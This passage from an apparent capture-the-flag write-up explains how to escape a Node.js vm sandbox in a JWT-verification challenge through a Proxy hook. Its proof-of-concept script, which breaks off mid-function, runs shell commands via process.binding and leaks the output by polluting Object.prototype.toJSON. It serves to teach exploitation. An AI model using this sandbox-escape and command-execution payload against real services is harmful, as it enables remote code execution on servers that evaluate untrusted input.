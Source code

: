 It can be found that the `constructor.name.[Symbol.toPrimitive]` of the returned proxy will be executed as a function. Its internal logic is that when the jsonwentoken module tries to generate a key from the returned Proxy, an error will be thrown if the type does not match, and it will try to read the class name when generating the error text. For the apply hook of Proxy, the third parameter is the parameter list passed in by the caller. The v8 context of this list is not in the vm, so the `process` object can be returned. Use `process.binding` to execute arbitrary shell commands.

Since the docker image used is the alpine version and there is no curl, the author mistakenly thinks that the environment is not connected to the Internet, so the echo problem needs to be solved. And this can be done by polluting `{}.__proto__.toJSON`. The final PoC script is as follows:

```javascript
const endpoint = `https://jwtjail-fcf2ebccc5f50f79.mc.ax`
const jwt = require('jsonwebtoken')
// const endpoint = `http://localhost:12345`

const token = jwt.sign({}, 'a')

fetch(endpoint + `/api/verify`, {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body: new URLSearchParams({
    token: `'${token}'`,
    secretOrPrivateKey: `
(() => {
  const c = (name, tar = {}) => new Proxy(
    tar,
    {
      apply: (...args) => {
        try {
          const process = args[2].constructor.constructor.constructor('return process')()
          const flag = process
            .binding('spawn_sync')
            .spawn({
              maxBuffer: 1048576,
              shell: true,
              args: [ '/bin/sh', '-c', "/readflag" ],
              cwd: undefined,
              detached: false,
              envPairs: ['PWD=/'],
              file: '/bin/sh',
              windowsHide: false,
              windowsVerbatimArguments: false,
              killSignal: undefined,
              stdio: [
                { type: 'pipe', readable: true, writable: false },
                { type: 'pipe', readable: false, writable: true },
                { type: 'pipe', readable: false, writable: true }
              ]
            }).output[1].toString().trim()
          console.log(flag)
          process.__proto__.__proto__.__proto__.constructor.prototype.toJSON =
            () => flag
        } catch (e) {
          console.log(e.stack)
        }
      },
      get: (...args) => {
        if(args[1] === Symbol.toPrimitive) {
          return c(name + '.' + String(args[1]), () => {
            throw new Error()
          });
        }
```